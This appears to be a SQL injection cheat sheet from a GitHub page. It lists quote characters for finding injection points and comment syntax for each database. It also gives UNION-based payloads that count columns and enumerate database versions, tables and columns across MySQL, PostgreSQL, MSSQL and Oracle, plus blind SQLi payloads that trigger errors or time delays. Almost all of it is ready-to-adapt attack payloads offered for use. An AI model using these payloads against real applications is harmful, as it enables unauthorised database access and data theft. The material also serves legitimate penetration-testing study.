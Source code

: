 # Check for SQLi
**Determine entry point:**
```
'
"
`
')
")
`)
'))
"))
`))
```
**Add comments after quote injection:**
```sql
MySQL
-- comment [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */
PostgreSQL
--comment
/*comment*/
MSQL
--comment
/*comment*/
Oracle
--comment
SQLite
--comment
/*comment*/
HQL
HQL does not support comments
```

# Union Based SQL Injection
If you can see the output of your SQL query then this is the best way to exploit it

**Determine number of columns:**
```sql
'' UNION SELECT null, null, null... -- 
```
**Determine number of columns for Oracle:**
```sql
'' UNION SELECT null, null... FROM dual -- 
```
**Get database versions**:
```sql
--MySQL, Microsoft (MSQL)
SELECT @@version
--PostgreSQL
SELECT version()
--Oracle
SELECT banner FROM v$version
SELECT version FROM v$instance
```
### Get all tables
**Oracle:**
```sql
SELECT * FROM all_tables
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.tables
```
### Get all columns
**Oracle:**
```sql
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
```
**MSQL, PostgreSQL, MySQL:**
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

# Blind SQLi
If you cant see the output of your query then try these （￣︶￣）↗　

*These are not copy-pastable , you'll need to modify them to fit your already-working injection*

### Check your query can trigger an error response from the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
```
**MSQL:**
```sql
SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END
```
**PostgreSQL:**
```sql
1 = (SELECT CASE WHEN (1=2) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
```
**MySQL:**
```sql
SELECT IF(1=2,(SELECT table_name FROM information_schema.tables),'a')
```

### Check your query can cause a time delay in the application
**Oracle:**
```sql
SELECT CASE WHEN (1=2) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
```
**MSQL:**
```sql
IF (1=1) WAITFOR DELAY '0:0:10' 
```
**PostgreSQL:**
```sql
SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
**MySQL:**
```sql
SELECT IF(1=1,SLEEP(10),'a')
```